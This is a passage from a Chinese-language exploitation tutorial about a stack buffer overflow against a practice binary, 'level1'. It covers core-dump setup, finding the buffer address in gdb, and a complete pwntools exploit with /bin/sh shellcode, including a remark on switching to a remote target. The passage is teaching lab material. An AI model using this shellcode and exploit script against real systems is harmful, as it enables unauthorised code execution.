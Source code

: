 溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:

```
[shellcode][“AAAAAAAAAAAAAA”….][ret]
^------------------------------------------------|

```

对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？

最简单的方法就是开启core dump这个功能。

```
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'

```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  ""

```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290。

OK，现在溢出点，shellcode和返回值地址都有了，可以开始写exp了。写exp的话，我强烈推荐pwntools这个工具，因为它可以非常方便的做到本地调试和远程攻击的转换。本地测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。

```
p = process('./level1')  #本地测试
p = remote('127.0.0.1',10001)  #远程攻击

```

最终本地测试代码如下：

```
#!/usr/bin/env python
from pwn import *

p = process('./level1') 
ret = 0xbffff290

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

```